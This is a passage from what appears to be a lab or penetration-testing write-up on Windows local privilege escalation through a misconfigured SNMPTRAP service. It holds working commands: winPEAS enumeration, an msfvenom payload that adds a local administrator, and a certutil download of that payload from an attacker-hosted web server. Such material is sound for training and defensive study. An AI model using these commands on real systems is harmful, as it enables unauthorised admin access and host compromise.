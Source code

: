 <br/>

First run:

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

<br/>

Relaunch the cmd and run:
```
cd C:\Users\Public\ && .\winPEAS.exe
```

![picture 16](images/a704e4f81ee240e265f39b95dfcec42ec8b8eeae22195099efb22b265391aa26.png)  

* We have full access to a service `SNMPTRAP`

<br/>

## Local Privilege Escalation

We can escalate our privilege by modifying the `BINPATH`, pointing it to a crafted payload which adds `nuclear\iyer` as local admin.

<br/>

To generate the payload, on the attacker machine, use `msfvenom` to generate an exe:

```
msfvenom -f exe -p windows/exec CMD="net localgroup administrators nuclear\iyer /add" > snmptrap.exe

python3 -m http.server 80
```

![picture 17](images/0eeec0b2c74eed2e1f756f0eb6abdf2e2420a0951ffe0094d1853f5cd4b9f515.png)  

<br/>

On the VDI CMD, download the crafted payload:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.11/snmptrap.exe .\snmptrap.exe
```
